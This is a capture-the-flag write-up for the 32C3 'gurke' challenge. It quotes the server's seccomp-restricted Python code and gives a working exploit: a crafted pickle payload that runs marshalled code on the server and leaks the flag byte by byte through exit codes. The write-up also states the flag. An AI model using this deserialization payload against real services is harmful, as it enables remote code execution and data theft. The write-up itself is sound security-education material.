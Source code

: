 ```yaml
---
layout: post
title: 32C3 CTF - gurke
category: writeup
---
```


> Non-standard gurke: https://32c3ctf.ccc.ac/uploads/gurke Talk to it via HTTP on http://136.243.194.43/.

[Gurke](https://de.wikipedia.org/wiki/Gurke) is German for 'cucumber'. Server runs this code:

```py
#!/usr/bin/env python
import sys
import os

import socket
import pickle
import base64
import marshal
import types
import inspect
import encodings.string_escape

class Flag(object):
    def __init__(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("172.17.0.1", 1234))
        self.flag = s.recv(1024).strip()
        s.close()
flag = Flag()

from seccomp import *

f = SyscallFilter(KILL)
f.add_rule_exactly(ALLOW, "read")
f.add_rule_exactly(ALLOW, "write", Arg(0, EQ, sys.stdout.fileno()))
f.add_rule_exactly(ALLOW, "write", Arg(0, EQ, sys.stderr.fileno()))
f.add_rule_exactly(ALLOW, "close")
f.add_rule_exactly(ALLOW, "exit_group")

f.add_rule_exactly(ALLOW, "open", Arg(1, EQ, 0))
f.add_rule_exactly(ALLOW, "stat")
f.add_rule_exactly(ALLOW, "lstat")
f.add_rule_exactly(ALLOW, "lseek")
f.add_rule_exactly(ALLOW, "fstat")
f.add_rule_exactly(ALLOW, "getcwd")
f.add_rule_exactly(ALLOW, "readlink")
f.add_rule_exactly(ALLOW, "mmap", Arg(3, MASKED_EQ, 2, 2))
f.add_rule_exactly(ALLOW, "munmap")
f.load()

data = os.read(0, 4096)
try:
    res = pickle.loads(data)
    print 'res: %r\n' % res
except Exception as e:
    print >>sys.stderr, "exception", repr(e)

os._exit(0)
```

Everyone knows that unpickling user provided data is dangerous. I've used arbitrary code execution pickle from <https://www.cs.uic.edu/~s/musings/pickle.html>.

We cannot just "print flag.flag", because the context where our code is executed is inside pickle module of remote server. So we needed some workaround by reading:

```
vars(sys.modules['__main__'])['flag'].flag
```

<!--more-->

Even if we had access to it, we could not get the data directly because writing to stdout is forbidden by seccomp. We extracted the flag byte by byte through the exit code.

```py
import requests
import os
import sys
import marshal

def getbyte(pos):
    exec("""
def f():
    import os
    m = globals()['sys'].modules
    x = m['__main__']
    x = vars(x)['flag'].flag
    x = ord(repr(x)[%d])
    os._exit(x)
""" % pos)
    m = marshal.dumps(f.func_code).encode('base64')

    p = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % m.replace('\n','')

    r = requests.post("http://136.243.194.43/", data=str(p))
    if "exception" in r.content:
        print r.content
        return None
    else:
        return int(r.content[7:])

s = ""
for i in range(100):
    c = getbyte(i)
    if not c:
        break
    s += chr(c)
    print c, s
print s
```

Flag is `32c3_rooDahPaeR3JaibahYeigoong`

